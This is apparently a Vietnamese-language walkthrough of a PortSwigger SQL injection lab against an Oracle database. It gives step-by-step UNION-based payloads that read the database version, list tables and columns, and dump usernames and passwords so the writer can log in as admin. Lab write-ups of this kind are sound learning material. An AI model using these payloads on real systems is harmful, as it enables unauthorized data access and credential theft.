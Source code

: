 ## SQL injection attack, listing the database contents on Oracle

> Bỏ qua xác định số trường có trong bảng nhé, chắc chắn là 2 cmnr :v
> Bỏ qua luôn xác định lỗi hiển thị ở đâu, vì chắc chắn nó sẽ ở dưới cùng :v

Nhưng mà database ở đây là Oracle nên chúng ta sẽ không **UNION SELECT ‘a’,’b’--** được mà phải là **UNION SELECT ‘a’,’b’ FROM DUAL--**

![](/imgs/SQL-Injection/28.png?raw=true)

Xác định phiên bản: **' UNION SELECT banner,NULL FROM v$version--**

![](/imgs/SQL-Injection/29.png?raw=true)

List ra toàn bộ tên database Oracle từ [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet): **SELECT * FROM all_tables**

Tương tự Oracle cũng có trường **table_name** để áp dụng vào: **' UNION SELECT table_name,NULL FROM all_tables--**

Trong đây sẽ có 1 bảng là **USERS_XEOUJT**, chúng ta sẽ tiến hành select ra các trường có trong bảng này.


![](/imgs/SQL-Injection/30.png?raw=true)

Câu query lấy ra tất cả các trường trong Oracle: 
> **SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'**

Vì thế câu query inject vào sẽ là 
> **' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_XEOUJT'--**

Ta sẽ thu được 2 columns là **PASSWORD_KCZZXF** và **USERNAME_LDDGDO**

![](/imgs/SQL-Injection/31.png?raw=true)

Select dữ liệu ra: **' UNION SELECT USERNAME_LDDGDO,PASSWORD_KCZZXF from USERS_XEOUJT--**

![](/imgs/SQL-Injection/32.png?raw=true)

Login tài khoản admin vào là solve

![](/imgs/SQL-Injection/33.png?raw=true)